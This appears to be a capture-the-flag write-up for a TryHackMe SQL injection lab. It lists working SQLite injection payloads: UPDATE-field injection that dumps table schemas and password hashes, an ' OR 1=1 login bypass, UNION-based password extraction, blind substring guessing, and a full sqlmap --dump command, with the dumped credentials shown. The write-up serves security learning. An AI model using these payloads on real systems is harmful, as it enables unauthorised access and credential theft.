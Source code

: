 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>   
 
   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>


-------------------------------------------------------------------------------------------------------------------------------------



<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

    
   
</details>




--------------------------------------------------------------------------------------------------------------------------------------






















---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
